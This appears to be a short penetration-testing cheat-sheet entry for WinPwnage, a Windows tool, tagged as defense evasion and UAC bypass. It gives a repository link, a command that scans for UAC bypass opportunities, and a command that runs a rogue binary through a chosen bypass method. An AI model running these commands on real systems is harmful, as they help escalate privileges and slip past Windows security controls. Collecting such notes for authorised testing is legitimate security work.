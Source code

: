 # WinPwnage

% Defense evasion, uac
#plateform/windows #target/local #cat/DEFENSE-EVASION/SECURITY/UAC


## desc
```powershell
https://github.com/rootm0s/WinPwnage
```

## Scan
```powershell
winpwnage.exe --scan uac 
```

## Run
```powershell
winpwnage.exe -u uac -i <uac_mathod|4> -p <rogue_bainary> <rogue_binary_args>
```